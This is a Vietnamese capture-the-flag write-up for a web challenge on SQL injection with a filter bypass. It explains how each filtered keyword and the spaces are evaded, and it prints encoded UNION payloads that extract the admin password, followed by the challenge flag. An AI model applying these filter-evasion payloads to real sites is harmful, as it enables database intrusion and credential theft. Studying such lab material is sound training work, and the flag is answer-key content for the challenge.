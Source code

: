 ```diff
@@Web-Server Challenges @@
```

## SQL injection - Filter bypass [80 Points]

* Mô tả ngắn gọn: Chúng ta sẽ inject vào tham số id ở đây

  ![11](img/11.jpg)

* Các ký tự bị filter và cách bypass như sau:

  * **Whitespace** = > thay thế bằng **%09** (tab)
  * **select** = > thay thế bằng **SELECT**
  * **union** = > thay thế bằng **UNION**
  * **join** = >  thay thế bằng **JOIN**
  * **select  1,2 (filter dấu , ) ** = > thay thế bằng **(SELECT 1) AS A JOIN (SELECT 2) AS B ** (Nếu không có alias cho sub-query sẽ bị lỗi *Every derived table must have its own alias*)
  * **where ** = > Thay thế bằng **limit** và **offset** 

* Ta có được hint từ source như sau

  ![11-1](img/11-1.jpg)

* Vậy là bảng có 4 cột, payload của ta sẽ có dạng như sau

  ```sql
  0 union select * from (select 1) as A join (select 2) as B join (select 3) as C join (select 4) as D
  ```

* Thay thế để nó bypass được filter thì payload trở thành như sau

  ```sql
  0%09UNION%09SELECT%09*%09FROM%09(SELECT%091)%09AS%09A%09JOIN%09(SELECT%092)%09AS%09B%09JOIN%09(SELECT%093)%09AS%09C%09JOIN%09(SELECT%094)%09AS%09D
  ```

* Kết quả thu được

  ![11-2](img/11-2.jpg)

* Sửa đổi 1 cột để trả ra password của admin và kết quả thu được là:

  * Payload: 

    ```sql
    0%09UNION%09SELECT%09*%09FROM%09(SELECT%091)%09AS%09A%09JOIN%09(SELECT%092)%09AS%09B%09JOIN%09(SELECT%093)%09AS%09C%09JOIN%09(SELECT%09pass%09From%09membres%09LIMIT%091%09OFFSET%090%09)%09AS%09D
    ```

  * Result:

    ![11-3](img/11-3.jpg)

  * ```diff
    -- Flag: KLfgyTIJbdhursqli
    ```